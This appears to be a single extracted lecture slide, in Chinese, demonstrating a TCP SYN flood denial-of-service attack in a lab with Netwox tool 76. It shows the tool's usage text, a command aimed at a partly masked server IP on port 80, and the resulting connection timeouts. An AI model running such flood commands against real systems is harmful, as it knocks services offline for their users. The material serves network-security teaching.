

# 利用Netwox进行TCP SYN Flood攻击演示
| ################## running tool number 76 ################## Title: Synflood +------------------------------------------------------------------------+ | This tool sends a lot of TCP SYN packets.                              |  +------------------------------------------------------------------------+ Usage: netwox 76 -i ip -p port [-s spoofip] Parameters:  -i|--dst-ip ip                 destination IP address {5.6.7.8}  -p|--dst-port port             destination port number {80}  -s|--spoofip spoofip           IP spoof initialization type {linkbraw} Example: netwox 76 -i "5.6.7.8" -p "80" Example: netwox 76 --dst-ip "5.6.7.8" --dst-port "80" Enter optional tool parameters and press Return key. netwox 76 -i "172.\*.\*.188" -p 80 |
| --- |
此时再使用主机A向服务器B发送连接请求，服务器会回应"Unable to connect to remote host: Connection timed out"
33